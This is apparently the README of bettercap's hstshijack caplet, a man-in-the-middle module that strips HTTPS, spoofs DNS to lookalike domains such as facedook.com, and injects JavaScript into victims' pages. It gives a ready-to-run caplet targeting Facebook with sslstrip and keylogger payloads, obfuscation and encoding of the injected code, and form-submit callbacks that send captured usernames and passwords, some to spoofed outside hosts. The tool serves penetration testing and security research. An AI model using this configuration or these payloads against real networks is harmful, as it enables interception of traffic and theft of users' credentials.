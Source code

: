 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.payload         /usr/local/share/bettercap/caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         facebook.com,*.facebook.com
set hstshijack.replacements    facedook.com,*.facedook.com
set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.custompayloads  *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  facedook.com,*.facedook.com

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that communicates with this module, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that the bettercap proxy can adjust the host and path for each request, and send a HEAD request to learn each host's response headers for a HTTP request.

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

Your custom payloads are automatically obfuscated by the module.

Any instance beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a silent callback, any request for the targeted host will no longer be spoofed for that client.

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads (`/` will not be written).

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://fdcdn.com/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on that (original/spoofed) host. If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
